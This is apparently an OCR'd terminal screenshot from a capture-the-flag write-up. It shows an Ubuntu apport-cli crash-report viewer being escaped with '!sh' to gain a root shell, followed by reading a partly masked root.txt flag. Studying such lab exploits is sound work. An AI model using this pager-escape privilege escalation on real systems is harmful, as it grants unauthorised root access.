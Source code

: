 ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

What would you like to do? Your options are:
  S: Send report (3.6 KB)
  V: View report
  K: Keep report file for sending later or copying to somewhere else
  I: Cancel and ignore future crashes of this program version
  C: Cancel
Please choose (S/V/K/I/C): v

2.20.11-0ubuntu27

== Architecture =================================
amd64

== CasperMD5CheckResult =================================
skip

== Date =================================
Fri Dec  1 21:48:28 2023

== Dependencies =================================
adduser 3.118ubuntu2
apt 2.0.10
apt-utils 2.0.10

libcap-ng0 0.7.9-2.1build1
libcrypt1 1:4.4.10-10ubuntu4
libdb5.3 5.3.28+dfsg1-0.6ubuntu2
libexpat1 2.2.9-1ubuntu0.6
!sh
# ls
# cd /root
# cat root.txt
ce455d27f86cab03091dd22204******
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~